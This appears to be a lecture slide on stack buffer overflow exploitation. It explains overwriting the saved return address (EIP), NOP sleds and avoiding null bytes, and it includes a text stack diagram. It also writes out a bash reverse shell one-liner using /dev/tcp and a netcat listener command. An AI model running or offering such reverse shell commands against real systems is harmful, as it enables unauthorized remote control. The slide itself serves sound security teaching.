

# Stack when it starts executing
The basic idea is to use a buffer overflow to have the program execute code that gives us control.  For example, execute a “reverse shell”:
Reverse shell: /bin/sh -i >& /dev/tcp/127.0.0.1/4444 0 >&1
We can then use netcat (nc) to connect to the interactive shell we started. [nc –lvp 4444]
We do this by putting code on the stack (in buffer) via the user supplied argument and (by overflowing the buffer), having EIP point to that new code.
There are two problems:
We need to get the attacking program into buffer using allowed characters (for example “0” can’t be in the string.
We need EIP to point into buffer that, in a reliable way,
One way to do this is to position a “nop sled,” which consists of one byte “nop” instructions, before the code we want to execute.  Then if EIP point anywhere in the nop sled, it will land in our code.

input args (in)
addresses
decreasing

return address (EIP)
ebp

old ebp

to_read

read_bytes

buffer[1024]
esp
119